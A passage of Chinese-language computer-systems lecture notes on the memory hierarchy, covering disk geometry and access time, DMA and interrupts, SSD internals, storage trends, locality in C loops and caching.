主要有三个原因，而且都是数量级上的差距。第一，慢：DRAM 读写一个字约几十纳秒；NAND 闪存读一页要几十微秒，写一页要几百微秒，擦除一个块要毫秒级（12.9 节），比 DRAM 慢三到五个数量级。NOR 闪存可以按字节读、读得也快一些（常用来存放可以“就地执行”的固件），但写和擦除同样很慢。第二，粒度不对：内存要求按字节随机改写，而闪存只能按页写、按块擦除，改一个字节就要搬动整页甚至整块。第三，会磨损：主存的写入极其频繁，一个循环计数器每秒就可能被写上亿次；即使有完美的磨损均衡，把 16 GB 的闪存当内存、以每秒 10 GB 持续写入，每 1.6 秒就把整片写满一遍，按 TLC 闪存约 3000 次的擦写寿命算，大约 3000 × 1.6 s ≈ 80 分钟就会全部磨损。
所以存储器层次结构里各取所长：DRAM 做主存，闪存（SSD）做二级存储，固件这种“很少改写、断电要保留”的内容放在 ROM/闪存里。介于两者之间的“持久内存”（如 Intel Optane）曾试图兼得两者的长处，但成本与生态问题使它在 2022 年停产（表 3）。
12.6 磁盘的构造与容量（课件 p.21–27）#
课件 p.21 把两种二级存储技术并排放在一起：磁盘把数据存在磁性介质上，靠机械运动访问；闪存把数据存为“持久的电荷”，如今用三维结构实现（一百多层单元叠在一起，每个单元存 3 位）。本节和下一节讲磁盘，12.9 节讲基于闪存的固态硬盘。
磁盘（课件 p.22 的照片）由以下几部分组成：一个或多个叠在一起的盘片（platter），装在主轴（spindle）上以固定速率旋转；读写头装在传动臂（arm）的末端，由执行机构（actuator）驱动；还有一块电路板，上面有自己的处理器和存储器（磁盘控制器、磁盘缓存），通过接口（课件照片中是 SCSI，今天多是 SATA 或 SAS）与计算机相连。
磁盘的几何结构如图 6（课件 p.23–24）。每个盘片有上下两个盘面（surface），都可以记录数据；每个盘面上有一组同心圆，称为磁道（track）；每条磁道划分成若干扇区（sector），扇区之间有间隙（gap）。间隙不存数据，而是存放标识扇区的格式化信息。每个扇区存同样多的数据，传统上是 512 字节，今天的大容量磁盘多用 4096 字节（“4K 高级格式”）。多个盘片上半径相同的磁道合起来称为一个柱面（cylinder），柱面 k 由每个盘面的第 k 条磁道组成。柱面这个概念之所以重要，是因为所有读写头一起移动（12.7 节）：读写头停在某个位置时，正好能读写一整个柱面而不必再移动。
图 6 磁盘的几何结构（课件 p.23–24）：(a) 一个盘面；(b) 多个盘片与柱面
容量是磁盘能存储的最大位数（课件 p.25）。磁盘厂商用 GB 作单位时，1 GB = 109 字节，而不是 230 字节（操作系统常按 230 显示，所以一块标称“1 TB”的磁盘在系统里显示约 931 GB）。容量取决于三个技术参数：记录密度（bits/inch），即一条磁道上 1 英寸的长度能放多少位；磁道密度（tracks/inch），即沿半径方向 1 英寸能放多少条磁道；面密度（bits/inch2），即两者的乘积。
早期磁盘每条磁道的扇区数相同，由最里面那条磁道的周长决定，外圈磁道因而浪费了大量空间。现代磁盘采用多区记录（multiple zone recording，课件 p.26）：把柱面划分成若干互不相交的记录区（recording zone），同一区内每条磁道的扇区数相同，由该区最内圈磁道的周长决定；不同区的扇区数不同，外圈的区比内圈的区每条磁道扇区多。因此计算容量时要用每条磁道的平均扇区数。容量公式与课件的例子（课件 p.27）是
容量 = 每扇区字节数 × 每磁道平均扇区数 × 每盘面磁道数 × 每盘片盘面数 × 每磁盘盘片数
例：512 字节/扇区，平均 300 扇区/磁道，20 000 磁道/盘面，2 盘面/盘片，5 盘片
容量 = 512 × 300 × 20 000 × 2 × 5 = 30 720 000 000 字节 = 30.72 GB（程序核对：512 × 300 × 20000 × 2 × 5 = 30 720 000 000。）
12.7 磁盘操作与访问时间（课件 p.28–42）#
磁盘用读写头读写盘面上的位（课件 p.28–29，图 7）。盘面以固定的速率旋转，典型值是每分钟 5400～15 000 转（RPM）。读写头装在传动臂末端，悬浮在盘面上方一层很薄的空气垫上（间距只有几十纳米，比灰尘颗粒还小，所以磁盘必须密封）；传动臂沿半径方向移动，就能把读写头定位到任何一条磁道上，这个动作称为寻道（seek）。所有盘面的读写头装在同一个传动臂组件上，一起移动，任何时刻都处在同一个柱面上。
图 7 磁盘操作（课件 p.28–29、p.39）：读写头随传动臂一起径向移动；一次访问由寻道、旋转延迟和传送三部分组成
课件 p.30–39 用动画演示了一次典型的访问：读写头在某条磁道上读完蓝色扇区之后，下一个请求是另一条磁道上的红色扇区。磁盘先寻道，把读写头移到红色扇区所在的磁道；到达后，红色扇区未必正好在读写头下面，要等盘片转过来，这段等待称为旋转延迟（rotational latency）；红色扇区的第一位到达读写头下方后，再用扇区经过读写头的时间把它读出，这称为传送时间（transfer time）。于是访问一个扇区的时间（课件 p.40）近似为
图 8 一次磁盘访问的过程（按课件 p.30–39 的动画重画；俯视单个盘面，盘片逆时针旋转，黑色箭头是读写头）：读完蓝色扇区后，先寻道到红色扇区所在的磁道，再等红色扇区转过来，最后读出红色扇区；上方箭头标出各段时间分别属于哪一部分
图 8 把这段动画的五个关键画面排在一起。(a)→(b)：蓝色扇区从读写头下转过，这段时间是蓝色扇区的传送时间。(b)→(c)：传动臂把读写头从第 2 道移到第 3 道，这是寻道；注意寻道期间盘片并没有停，两个扇区都继续逆时针转了一段。(c)→(d)：读写头已经就位，但红色扇区还在右下方，只能等它转上来，这段被白白浪费的时间就是旋转延迟（灰色弧线是红色扇区在等待期间转过的角度）。(d)→(e)：红色扇区从读写头下转过，完成传送。课件 p.39 把这四段时间排成一行，正好对应下面的访问时间公式：一次访问 = 寻道 + 旋转延迟 + 传送。
T_access = T_avg_seek + T_avg_rotation + T_avg_transfer
T_avg_seek ：平均寻道时间，典型值 3～9 ms（由厂商给出）
T_avg_rotation ：平均旋转延迟 = 1/2 × 转一圈的时间 = 1/2 × (60 / RPM) 秒
T_avg_transfer ：平均传送时间 = 转一圈的时间 / 每磁道平均扇区数
= (60 / RPM) × (1 / 每磁道平均扇区数) 秒平均旋转延迟取“半圈”，是因为读写头到达磁道时，目标扇区可能在任何位置，平均要等半圈；最坏情况要等将近一整圈。传送时间等于“转过一个扇区所需的时间”，所以它是转一圈的时间除以每条磁道的扇区数。课件 p.41 的例子（表 4）：转速 7200 RPM，平均寻道 9 ms，每磁道平均 400 个扇区。
表 4 课件 p.41 的磁盘访问时间计算（程序核对）
| 分量 | 计算 | 精确值 | 课件取值 |
|---|---|---|---|
| 平均寻道时间 | 已知 | 9 ms | 9 ms |
| 平均旋转延迟 | 1/2 × (60 s / 7200) × 1000 ms/s | 4.17 ms | 4 ms |
| 平均传送时间 | (60 s / 7200) × (1/400) × 1000 ms/s | 0.021 ms | 0.02 ms |
| 访问时间 | 三者之和 | 13.19 ms | 9 + 4 + 0.02 = 13.02 ms |
从这个例子可以得出课件强调的几点结论。第一，访问时间主要由寻道时间和旋转延迟决定，传送时间只占不到 0.2%。第二，扇区中的第一个位最贵，其余的位几乎免费：一旦读写头就位，读出整个扇区只要 0.02 ms。所以磁盘最适合一次读写一大块连续的数据。第三，粗略地说，寻道时间与平均旋转延迟相当，可以用“2 倍寻道时间”估计访问时间。第四，磁盘比内存慢得多。教材的比较方法是：读一个 512 字节扇区的数据，用 SRAM 约需 64 个双字 × 4 ns = 256 ns，用 DRAM 约需 64 × 60 ns ≈ 4000 ns，而磁盘约需 10 ms，所以磁盘大约比 SRAM 慢 40 000 倍（10 ms / 256 ns ≈ 39 000），比 DRAM 慢 2500 倍（10 ms / 4000 ns = 2500）。课件 p.41–42 列出了这两个倍数，但没有写出比较的依据，读的时候要知道它们比较的是“读一个扇区”而不是“读一个字”。
⚠ 课件 p.41–42 的几处小问题
p.41 的计算把平均旋转延迟 4.17 ms 写成 4 ms（舍入），最后也没有把三项加起来：Taccess = 9 + 4.17 + 0.02 ≈ 13.2 ms（按课件的舍入值是 13.02 ms）。p.41 末行“2,500 times slower then DRAM”的 then 应为 than，p.42 是改正了这个拼写的同一页。另外，p.24 标题“Muliple-Platter”应为 Multiple-Platter。
操作系统看到的磁盘并不是上面这套盘面、磁道、扇区的几何结构。真实的几何结构（盘面、记录区、磁道、扇区，还有备用柱面）很复杂，而且每个型号都不一样，现代磁盘把它隐藏起来，只向操作系统呈现一个简单的视图：一串由 B 个扇区大小的逻辑块（logical block）组成的序列，编号为 0, 1, …, B − 1。磁盘控制器中的固件维护着逻辑块号到物理位置（盘面，磁道，扇区）的映射；操作系统要读一个扇区时，只需告诉控制器逻辑块号，由控制器去换算并控制读写头。这层映射还有一个用处：控制器在每个区中预留一些备用柱面，某条磁道坏了就悄悄换成备用的，操作系统完全察觉不到。备用柱面不对外提供容量，所以磁盘格式化后的容量比最大容量小一些。
12.8 I/O 总线与读磁盘扇区（课件 p.43–46）#
图形卡、显示器、鼠标、键盘、磁盘这样的 I/O 设备，通过 I/O 总线连接到 CPU 和主存（课件 p.43，图 9）。I/O 总线比系统总线和存储器总线慢，但与具体的 CPU 无关，可以容纳各种第三方设备（课件当年的例子是 PCI，今天是 PCIe）。连接到 I/O 总线上的有：USB 控制器（连接键盘、鼠标、U 盘等 USB 设备）、图形卡（适配器，负责在显示器上画像素）、磁盘控制器（主机总线适配器），以及网卡等插在扩展槽中的设备。
图 9 I/O 总线与读一个磁盘扇区的三个步骤（课件 p.43–46）
CPU 读一个磁盘扇区分三步（课件 p.44–46）。① CPU 执行几条存储指令，向与磁盘控制器关联的端口地址写入三样东西：一条“读”命令、要读的逻辑块号，以及数据要存放的主存地址。这种用普通的内存读写指令访问设备的方式称为内存映射 I/O：地址空间中有一部分地址留给 I/O 设备，读写这些地址就是在和设备通信。发出请求后，CPU 不会傻等——磁盘读一个扇区要 10 ms 左右，CPU 在这段时间里可以执行上千万条指令——而是转去做别的工作。② 磁盘控制器收到命令后，把逻辑块号翻译成扇区位置，读出扇区的内容，然后直接把数据写入主存，不需要 CPU 参与。设备不经过 CPU 自己完成读写主存的总线事务，称为直接内存访问（direct memory access，DMA），这样的传送称为 DMA 传送。③ DMA 传送完成、扇区数据已经安全地存在主存中之后，磁盘控制器给 CPU 发一个中断信号（使 CPU 芯片上一个专门的“中断”引脚有效）。CPU 暂停当前的工作，跳到操作系统的中断处理程序，由它记录 I/O 已经完成，再把控制返回到被打断的地方。中断与异常控制流是第 16 讲的主题。
CPU 往端口里写什么、按什么顺序写、写完之后怎样知道结果，每种磁盘控制器都有自己的一套规矩，这些规矩由操作系统中的设备驱动程序（device driver）来执行。“驱动”一词在中文里容易混淆：“磁盘驱动器”（disk drive）指的是磁盘这个硬件本身，而“驱动程序”（driver）是一段软件。驱动程序是操作系统内核中专门负责某一类设备的模块，它知道这类控制器的寄存器（端口）在哪些地址、命令怎样编码、数据缓冲区怎样描述、中断来了怎样处理。程序调用 read 读文件时，请求一层层往下传：文件系统把“文件的第几个字节”换算成逻辑块号，块设备层把请求排队、合并，最后由驱动程序向控制器写命令，也就是上面的第 ① 步；第 ③ 步的中断到来后，处理它的也是驱动程序。今天的硬盘多用 AHCI 标准（SATA 接口），固态盘多用 NVMe 标准，它们各有一个通用驱动程序，所以换一块同类硬盘不需要装新驱动。NVMe 的做法很能说明“端口”的含义：驱动程序在主存里准备好“提交队列”和“完成队列”，往控制器的一个“门铃”寄存器写一个数，就等于告诉它“队列里有新命令了”。
常见问题：DMA 结束后磁盘控制器发来的“中断”是什么？会不会打乱 CPU 正在执行的指令？
中断不是一条指令，而是一个硬件信号：早期是 CPU 芯片上的一根中断引脚被拉高，今天的 PCIe 设备则是向一个约定的特殊地址写一个消息（MSI，消息信号中断），效果相同——在 CPU 里把“有中断待处理”的标志置起来。CPU 不会在一条指令执行到一半时被打断：它在两条指令之间（对流水线和乱序执行的处理器来说，是在指令按程序顺序提交的边界上）检查有没有待处理的中断。如果有，就让当前指令正常完成，保存被打断程序的状态（至少包括下一条指令的地址和条件码等），跳到操作系统预先登记好的中断处理程序；处理程序通常很短，例如记下“这块数据已经到了”、唤醒正在等这块数据的进程，然后执行返回指令，恢复现场，被打断的程序从下一条指令接着执行。对被打断的程序来说，除了“少用了一点时间”以外，什么都没有改变，它根本察觉不到中断发生过。这正是第 16 讲异常控制流要细讲的内容。
它的代价是时间：一次中断处理要花几百纳秒到几微秒（保存现场、处理、返回，还会污染缓存）。所以设备不会每传一个字节就中断一次，而是一整块数据 DMA 完成后才中断一次；数据量非常大的高速设备（万兆网卡、NVMe 固态盘）还会把多个完成事件合并成一次中断，或者在负载很高时干脆改为由 CPU 定期轮询完成队列。另外，DMA 与 CPU 会争用存储器总线，但硬件会仲裁、轮流使用；在 x86 上，DMA 写入主存时硬件还会自动让缓存中对应的旧副本失效，保证 CPU 随后读到的是新数据。
12.9 固态硬盘 SSD（课件 p.47–49）#
固态硬盘（solid state disk，SSD）基于闪存，外部看起来和磁盘一样：插在标准的磁盘接口上，处理来自 CPU 的读写逻辑块的请求（课件 p.47，图 10）。内部则完全不同：一个或多个闪存芯片取代了旋转的盘片，闪存翻译层（flash translation layer，FTL）取代了磁盘控制器。闪存翻译层是一个硬件/固件设备，负责把对逻辑块的请求翻译成对底层物理设备的访问。
图 10 固态硬盘的结构（课件 p.47）
闪存由 B 个块组成，每个块由 P 个页组成，页通常是 512 字节～4 KB，块通常由 32～128 页组成，块的大小为 16 KB～512 KB（今天的 3D 闪存页可达 16 KB、块达数 MB，但结构相同）。读和写都以页为单位，但有一个关键限制：一页只有在它所在的整个块被擦除之后才能写（擦除把块中所有位置为 1）。也就是说，闪存不能像磁盘那样“原地覆盖”。一个块经过一定次数的反复擦写后就会磨损，不能再用（课件写“约 10 万次”，见 12.5 节的说明）。
⚠ 课件 p.47–49 的几处笔误
p.47“Pages: 512KB to 4KB”应为 512 B to 4 KB（512 字节～4 KB；教材原文是 512 bytes to 4 KB，“512KB 到 4KB”的范围本身也是倒着的）。p.48 与 p.49 的“Samsung 940 EVO Plus”应为 Samsung 970 EVO Plus：三星没有 940 这个型号，p.48 所附测试链接本身就是 SSD-970-EVO-Plus-250GB；p.48 的读写吞吐量是用户测试网站对这款 250 GB 版本的实测值。
SSD 的性能如何呢？课件 p.48 给出的测试结果是：顺序读 2126 MB/s、顺序写 1880 MB/s、随机读 140 MB/s、随机写 59 MB/s。从这组数字可以看出两点。第一，顺序访问比随机访问快，这是整个存储层次的共同主题：无论是 DRAM 的行缓冲区、磁盘的“首字节最贵”还是 SSD，连续的访问都比跳来跳去的访问快。第二，随机写比随机读慢。原因是：擦除一个块需要较长时间（约 1 ms，比读写一页慢一个数量级以上）；而要修改一个块中的某一页，必须先找一个已经擦除的新块，把旧块中其余所有有效页复制过去，再写入修改后的页。闪存翻译层用了很多技巧来减轻这一代价，例如把一连串小的写操作先攒起来，再一次写入一个已擦除的块；并把逻辑块到物理页的映射记录在表中，写入时总是写到新位置、更新映射，旧位置留待后台“垃圾回收”时整块擦除。
常见问题：为什么 SSD 的随机写比随机读慢得多？“写放大”是什么？
读一页只需按映射表找到物理页直接读出；写一页却不能原地覆盖，只能写到一个已擦除的空闲页，并把旧页标记为无效。空闲页用完后，控制器必须做垃圾回收：选出一个块，把其中仍然有效的页复制到别处，再擦除整个块。于是用户只写了 4 KB，闪存内部可能要复制几十个页、擦除一个块，实际写入量是用户写入量的若干倍，这个倍数称为写放大（write amplification）。小块的随机写最容易造成写放大；顺序写则往往正好填满整块，几乎不需要搬运。课件 p.48 中随机写（59 MB/s）比随机读（140 MB/s）慢一半以上，原因就在这里。
如果和机械硬盘比较（课件 p.49），就会发现 SSD 的优点是没有运动部件，因而更快（随机访问时间是几十微秒，而磁盘是几毫秒）、更省电、更耐摔。缺点有两个。一是会磨损：闪存翻译层中的磨损均衡（wear leveling）逻辑把擦除操作平均分散到所有块上，以延长寿命；课件说该型号保证每字节可以写 600 次，这与厂商标注的总写入量一致（250 GB 版本标注 150 TB，150 TB / 250 GB = 600）。二是贵：课件说 2019 年每字节价格约为磁盘的 4 倍，而且差距还在缩小。应用方面，SSD 早已普及于 MP3 播放器、智能手机和笔记本电脑，在台式机和服务器中也越来越常见。
12.10 存储技术趋势与 CPU–存储器差距（课件 p.50、p.69–70）#
课件补充页 p.69–70 列出了 1985—2015 年各种存储技术和 CPU 的数据（表 5、表 6），p.50 把其中的访问时间画在同一张对数坐标图上（图 11 是按 p.69–70 的数据重画的）。
表 5 存储技术的发展趋势（课件 p.69；“倍数”列为 2015 与 1985 年之比，程序核对）
| 指标 | 1985 | 1990 | 1995 | 2000 | 2005 | 2010 | 2015 | 倍数 |
|---|---|---|---|---|---|---|---|---|
| SRAM 价格（$/MB） | 2900 | 320 | 256 | 100 | 75 | 60 | 25 | 116 |
| SRAM 访问时间（ns） | 150 | 35 | 15 | 3 | 2 | 1.5 | 1.3 | 115 |
| DRAM 价格（$/MB） | 880 | 100 | 30 | 1 | 0.1 | 0.06 | 0.02 | 44 000 |
| DRAM 访问时间（ns） | 200 | 100 | 70 | 60 | 50 | 40 | 20 | 10 |
| DRAM 典型容量（MB） | 0.256 | 4 | 16 | 64 | 2000 | 8000 | 16 000 | 62 500 |
| 磁盘价格（$/GB） | 100 000 | 8000 | 300 | 10 | 5 | 0.3 | 0.03 | 3 333 333 |
| 磁盘访问时间（ms） | 75 | 28 | 10 | 8 | 5 | 3 | 3 | 25 |
| 磁盘典型容量（GB） | 0.01 | 0.16 | 1 | 20 | 160 | 1500 | 3000 | 300 000 |
表 6 CPU 时钟频率的发展（课件 p.70；有效周期 = 周期 / 核数）
| 指标 | 1985 | 1990 | 1995 | 2003 | 2005 | 2010 | 2015 | 倍数 |
|---|---|---|---|---|---|---|---|---|
| CPU | 80286 | 80386 | Pentium | P-4 | Core 2 | Core i7 (Nehalem) | Core i7 (Haswell) | — |
| 主频（MHz） | 6 | 20 | 150 | 3300 | 2000 | 2500 | 3000 | 500 |
| 周期（ns） | 166 | 50 | 6 | 0.30 | 0.50 | 0.4 | 0.33 | 500 |
| 核数 | 1 | 1 | 1 | 1 | 2 | 4 | 4 | 4 |
| 有效周期（ns） | 166 | 50 | 6 | 0.30 | 0.25 | 0.10 | 0.08 | 2075 |
图 11 CPU 与存储器之间的速度差距（按课件 p.69–70 的数据重画；课件 p.50 另画了 SSD 的访问时间，约在 DRAM 与磁盘之间）
这两张表和这张图说明了三件事。第一，容量和价格的进步远快于速度的进步：DRAM 每兆字节的价格下降了 44 000 倍、容量增长了 62 500 倍，访问时间却只缩短了 10 倍；磁盘的价格下降了 300 多万倍，访问时间只缩短了 25 倍。存储器“越做越大、越做越便宜”比“越做越快”容易得多。第二，CPU 变快的速度远超存储器：1985 到 2003 年间时钟周期缩短了约 550 倍，DRAM 访问时间只缩短了 3 倍多，两者之间的鸿沟越来越宽。第三，2003 年前后出现了一个拐点：Pentium 4 的主频达到 3.3 GHz 后，功耗和发热成了瓶颈（课件 p.70 所说的“功耗墙”），主频不升反降；此后性能的提升转而依靠多核，所以用“周期 / 核数”算出的有效周期仍在继续缩短。多个核同时向存储器要数据，差距只会更大。
怎样跨越这道越来越宽的鸿沟？课件 p.51 给出了答案：靠计算机程序的一个基本性质——局部性。
⚠ 课件 p.69 的数字与过时数据
p.69 DRAM 2015 年的典型容量写作“16.000”，应为 16,000（MB）。这两页是 2015 年整理的数据；课件 p.49“2019 年 SSD 每字节约为磁盘的 4 倍”等说法也有时效性，阅读时把握趋势即可，不必记具体数字。
12.11 局部性（课件 p.51–57）#
局部性原理（principle of locality）说的是：程序倾向于使用地址与最近用过的地址相同或相近的数据和指令（课件 p.53）。它有两种形式。时间局部性（temporal locality）：最近访问过的项，在不久的将来很可能再次被访问。空间局部性（spatial locality）：地址相近的项，往往在相近的时间内被访问。局部性不是硬件强加给程序的规则，而是绝大多数程序天然具有的统计性质——循环会反复执行同一段指令，数组会被一个接一个地扫描，栈上的局部变量会被反复读写。存储器层次结构的全部设计都建立在这个性质之上：如果程序没有局部性，缓存就毫无用处。
一个最简单的例子#
课件 p.54 用一段求和代码说明怎样从数据和指令两个方面分别分析局部性（表 7）。
sum = 0;
for (i = 0; i < n; i++)
sum += a[i];
return sum;表 7 求和循环的局部性分析（课件 p.54）
| 引用对象 | 访问方式 | 局部性 | 说明 |
|---|---|---|---|
| 数组元素 a[i] | 依次访问 a[0]、a[1]、a[2]……（步长为 1） | 空间局部性 | 每个元素只访问一次，所以没有时间局部性 |
| 变量 sum | 每次迭代都读、写一次 | 时间局部性 | 优化后通常放在寄存器里，根本不访问内存 |
| 循环体指令 | 按顺序一条接一条取出 | 空间局部性 | 指令在内存中连续存放 |
| 循环体指令 | 每次迭代都重复执行同一组指令 | 时间局部性 | 循环执行 n 次，同一条指令被取 n 次 |
对数组来说，步长（stride）是衡量空间局部性的关键量：每次访问与上一次访问相隔多少个元素。步长为 1 的访问模式（stride-1 reference pattern，也叫顺序访问）空间局部性最好；步长越大，空间局部性越差。原因在 12.13 节会讲清楚：存储器层次之间以块为单位传送数据，块大小通常是 64 字节，读一个 int 时会把它所在的 64 字节整块搬上来。步长为 1 时，一个块里的 16 个 int 都会被用到，只有第 1 个不命中；步长为 k 时（k ≤ 16），每块只用到 16/k 个，不命中率是 k/16；步长达到 16 个 int（64 字节）以上，每次访问都落在新块上，不命中率为 100%。（模拟 48 KB、64 字节块的缓存核对：步长 1、2、4、8、16 的不命中率依次为 6.25%、12.5%、25%、50%、100%。）
二维数组：行优先与列优先遍历#
“看一眼代码就能定性判断它的局部性，是专业程序员的一项关键技能”（课件 p.55）。判断的前提是知道数组在内存里怎样存放。C 语言的多维数组按行优先（row-major）顺序存放：int a[M][N] 先存第 0 行的 N 个元素，再存第 1 行……，元素 a[i][j] 的地址是 a + (i·N + j)·4（第 7 讲）。课件 p.55 与 p.56 的两个函数只差两层循环的次序：
int sum_array_rows(int a[M][N]) int sum_array_cols(int a[M][N])
{ {
int i, j, sum = 0; int i, j, sum = 0;
for (i = 0; i < M; i++) for (j = 0; j < N; j++)
for (j = 0; j < N; j++) for (i = 0; i < M; i++)
sum += a[i][j]; sum += a[i][j];
return sum; return sum;
} }图 12以 3 × 4 的数组为例画出两者的访问次序。sum_array_rows 的内层循环沿着一行走，访问次序与存放次序完全一致，步长为 1，空间局部性好。sum_array_cols 的内层循环沿着一列走，相邻两次访问相隔一整行（N 个元素，N·4 字节），步长为 N，空间局部性差；只有当 M 非常小时，后续列的访问才能重用前面载入的块（课件 p.56 的“unless M is very small”）。
图 12 二维数组 int a[3][4] 的行优先存放与两种遍历次序（课件 p.55–56）：(a) 按行遍历，步长 1；(b) 按列遍历，步长 N = 4
差别有多大？在默认环境中对 4096 × 4096 的 int 数组（64 MB）实测，每种遍历取 5 次中的最好成绩（表 8）：按行遍历约 5.5 ms，按列遍历约 140 ms，慢了约 25 倍，而两个函数执行的加法次数完全相同。
表 8 循环次序对运行时间的影响（默认环境实测，gcc -O2 -fno-tree-vectorize，取 5 次中最好值）
| 函数 | 访问模式 | 时间 | 每元素 | 相对 |
|---|---|---|---|---|
| sum_array_rows（4096 × 4096） | 步长 1 | 约 5.5 ms | 约 0.33 ns | 1× |
| sum_array_cols（4096 × 4096） | 步长 4096（16 KB） | 约 140 ms | 约 8.5 ns | 约 25× |
| sum_array_3d，课件次序（2563） | 步长 256 × 256（256 KB） | 约 18 ms | 约 1.1 ns | 约 3.4× |
| sum_array_3d，改为 k、i、j 次序 | 步长 1 | 约 5.4 ms | 约 0.32 ns | 1× |
加 -fno-tree-vectorize 是为了禁止编译器把按行遍历改写成 SIMD 指令，让两者只在访问次序上不同；关掉优化（-Og）时按行遍历约 17 ms、按列遍历约 142 ms，差距缩小到 8 倍左右，因为按行遍历的时间被多出来的指令开销拉长了，而按列遍历的瓶颈始终是访存。计时结果每次会有百分之几的波动，但量级稳定。桌面版实验工具的本机实验“二维 / 三维局部性”运行的就是这个计时程序，可以在自己的电脑上重测，结果的倍数会随机器而变，但趋势相同。
常见问题：课件说“除非 M 非常小”，到底多小才算小？
用缓存模拟器（48 KB、12 路组相联、64 字节块、LRU 替换，与默认环境的 L1 数据缓存一致）统计按列遍历 int a[M][N] 的不命中率，结果分两种情况。
N = 1000 时（每行 4000 字节），M 从 4 到 768，不命中率都约为 6.3%，与按行遍历几乎相同；M = 800 时升到 53.5%，M = 1024 时为 100%。分界线是 768 = 48 KB ÷ 64 字节，即缓存能装下的块数：按列走完第 0 列要载入 M 个块，只要这 M 个块都还留在缓存里，走第 1 列到第 15 列时就全部命中。M 超过缓存的块数，走到第 1 列时第 0 列载入的块已被替换，就每次都不命中——这是 12.13 节所说的容量不命中。
N = 1024 时（每行恰好 4096 字节）情况截然不同：M ≤ 12 时不命中率 6.25%，M = 13 时就跳到 100%。原因是这块缓存有 64 个组，地址相差 4096 字节的整数倍的块全部映射到同一组，而一组只有 12 行；一列的 M 个块挤在同一组里，第 13 个块就会把第 1 个挤出去。这是冲突不命中：缓存总容量远远没用完，却因为映射规则而反复替换。
所以“M 非常小”的准确含义是：一列涉及的块能同时留在缓存中。数组的行长恰好是 2 的大次幂时这个条件格外苛刻。组、组相联、映射规则是第 13 讲的内容，这里只需记住结论：大步长的访问不仅浪费块里的其余数据，还容易引发冲突。
三维数组：重排循环得到步长 1#
课件 p.57 问：能否交换循环次序，使函数以步长 1 的模式扫描三维数组？
int sum_array_3d(int a[M][N][N])
{
int i, j, k, sum = 0;
for (i = 0; i < M; i++)
for (j = 0; j < N; j++)
for (k = 0; k < N; k++)
sum += a[k][i][j];
return sum;
}判断方法是看下标：三维数组 a[x][y][z] 按行优先存放时，最右边的下标变化最快，z 加 1 地址加 4 字节，y 加 1 地址加一行（N·4 字节），x 加 1 地址加一整个二维平面（N·N·4 字节）。原代码中引用的是 a[k][i][j]，最右边的下标是 j，而 j 在中间层；内层循环变量 k 出现在最左边，相邻两次访问相隔一整个平面，步长为 N·N。要得到步长 1，内层循环应当是出现在最右边的下标 j，中间层是 i，外层是 k，即循环次序改为 k、i、j（课件答案“make j the inner loop”）。一般的规则是：循环嵌套的次序应当与下标从左到右的次序一致。实测（表 8）256 × 256 × 256 的数组，课件原次序约 18 ms，改成 k、i、j 后约 5.4 ms，与二维按行遍历的速度相同。原次序“只”慢了 3 倍多，没有二维按列遍历那么夸张，是因为内层循环只走 256 步，同一组 256 个块在中间一层循环里会被反复用到，部分能在 L2、L3 缓存中命中，硬件预取器也能识别出这种固定步长。
⚠ 课件 p.57：数组声明与下标的范围不一致
函数参数声明为 int a[M][N][N]，即第一维大小为 M、后两维大小为 N；但循环中 i 的范围是 0 ～ M−1、k 的范围是 0 ～ N−1，引用的却是 a[k][i][j]：k 作第一维下标（上限应为 M），i 作第二维下标（上限应为 N）。只有 M = N 时才不会越界。教材对应的练习题 6.7 把数组写作 int a[N][N][N]，没有这个问题。课件想说明的结论（把 j 放在最内层，次序改为 k、i、j）不受影响；如果要保留 M ≠ N，应把声明改成 int a[N][M][N]，或把循环上界相应交换。
12.12 存储器层次结构（课件 p.58、p.60）#
课件 p.58 把前面讲过的内容归纳成硬件与软件的三条基本而持久的性质：① 快速的存储技术每字节更贵、容量更小、功耗（发热）更大；② CPU 与主存之间的速度差距在扩大（12.10 节）；③ 写得好的程序往往具有良好的局部性（12.11 节）。这三条性质“互相补充得恰到好处”：既然快的存储器做不大、大的存储器做不快，而程序在一段时间内又只集中访问一小部分数据，那么就可以把存储器组织成层次结构——上层小而快，存放下层的一部分数据；程序的大多数访问落在上层，只有少数访问需要下到慢的下层。
图 13是课件 p.60 的典型层次结构。从上到下：L0 寄存器，L1、L2、L3 高速缓存（SRAM），L4 主存（DRAM），L5 本地二级存储（本地磁盘、SSD），L6 远程二级存储（如 Web 服务器、分布式文件系统）。越往上越小、越快、每字节越贵；越往下越大、越慢、每字节越便宜。关键在右侧的说明：每一层都保存着从下一层取来的数据。寄存器保存从 L1 取来的字，L1 保存从 L2 取来的缓存行，……，主存保存从本地磁盘取来的磁盘块，本地磁盘保存从远程服务器取来的文件。
图 13 存储器层次结构示例（课件 p.60）：每一层都作为下一层的缓存
作为对照，默认环境（云端 Intel Xeon 服务器，2 个逻辑核）用 lscpu 报告的层次是：每核 L1 数据缓存 48 KB（lscpu 按 2 个实例合计报告为 96 KiB），每核 L2 2 MB，全芯片共享 L3 504 MB（服务器处理器的 L3 很大），缓存行均为 64 字节。主流台式机的例子见研讨题 2（5）的解答。
12.13 层次结构中的缓存（课件 p.61–65）#
缓存（cache，读作 cash）是一个更小、更快的存储设备，作为一个更大、更慢的设备中部分数据的暂存区（课件 p.61）。存储器层次结构的基本思想是：对每个 k，位于第 k 层的更快更小的设备，作为位于第 k+1 层的更大更慢的设备的缓存。它之所以有效，是因为局部性使得程序访问第 k 层数据的次数远多于访问第 k+1 层的次数，于是第 k+1 层可以慢一些，从而做得更大、每位更便宜。理想的结果是：整个层次结构像一个大容量存储池，成本接近底层便宜的存储器，速度接近顶层快速的存储器——这是课件所说的 Big Idea。
块、命中与不命中#
图 14把课件 p.62–64 的三张图画在一起。第 k+1 层的存储器被划分成大小相同的块（block），编号 0、1、2……；第 k 层的缓存有若干个块的位置，存放第 k+1 层某些块的副本。数据总是以块为单位在相邻两层之间复制（图 (a)：块 4 和块 10 正被复制到缓存中）。块的大小因层而异：L1、L2、L3 之间的块（缓存行）通常是 64 字节，主存与磁盘之间的块（页）通常是 4 KB，越往下层块越大，因为下层的访问时间越长，一次多搬一些数据才划算（磁盘“首字节最贵”，12.7 节）。
图 14 缓存的基本操作（课件 p.62–64）：(a) 以块为单位在相邻两层之间复制；(b) 命中；(c) 不命中，取来块 12 并替换块 9
